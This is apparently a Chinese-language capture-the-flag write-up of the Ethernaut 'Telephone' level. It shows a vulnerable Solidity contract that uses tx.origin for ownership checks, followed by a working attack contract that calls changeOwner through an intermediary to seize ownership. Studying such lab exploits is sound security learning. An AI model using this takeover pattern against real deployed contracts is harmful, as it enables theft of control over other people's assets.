

# Telephone

> 获得下面合约来完成这一关

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## 攻击思路

更换合约owner只能通过changeOwner函数，当交易的发送者和交易的原始发送者不同时，发生owner变动。

[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)



## 攻击合约

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Telephone  {
    function changeOwner(address _owner) external;
}
contract Attack {

    Telephone constant private target = Telephone(0x6A8eF3240947966B468658fCadB54704dd037a16);

    function attack() public{
        target.changeOwner(msg.sender);
    }

}
```

